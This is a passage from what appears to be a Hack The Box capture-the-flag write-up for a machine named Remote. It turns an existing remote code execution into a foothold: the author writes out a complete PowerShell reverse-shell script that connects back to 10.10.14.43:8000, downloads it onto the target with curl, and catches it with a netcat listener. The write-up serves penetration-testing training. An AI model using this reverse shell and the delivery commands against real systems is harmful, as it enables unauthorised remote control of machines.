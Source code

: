 Seems like we're unable to... Enumerating the `C:\` directory with the RCE, we can see that there's a `ftp_transfer` directory.

![85db2934946a43d81543cc2473fc05f9.png](/images/htb-remote/19bc86eb634d4b72a0f61ece01b7bda6.png)

Let's try putting a file inside by using `New-Item c:\\ftp_transfer\\test.txt`

![62574e1a20ff1e510797cb35e211b73d.png](/images/htb-remote/f36f7639bd7d4546bb87f292751ff2ec.png)

Next, let's try to upload a reverse powershell.. err.. shell to the ftp_transfer directory. Create a shell.ps1 file, then use the following as the content:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.43",8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Make sure to change the IP address and port before uploading.

To upload the file to the machine, use `python3 -m http.server 8888` to open a HTTP server on the directory. Next, use `curl http://10.10.14.43:8888/shell.ps1 -outfile c:\\ftp_transfer\\shell.ps1` to download the file from our machine.

![a48d81d820c6ca470ddca44bc650efbb.png](/images/htb-remote/b54331de9d544ffaa04ff0c98eea17de.png)

Now let's setup a netcat listener to catch the shell using `nc -lvnp 8000`. Execute the shell using `c:\\ftp_transfer\\shell.ps1`.

![061b1be293ee7a438d8b9ace07f06414.png](/images/htb-remote/fd6e0b2e73204c06a852c696f8d1def4.png)
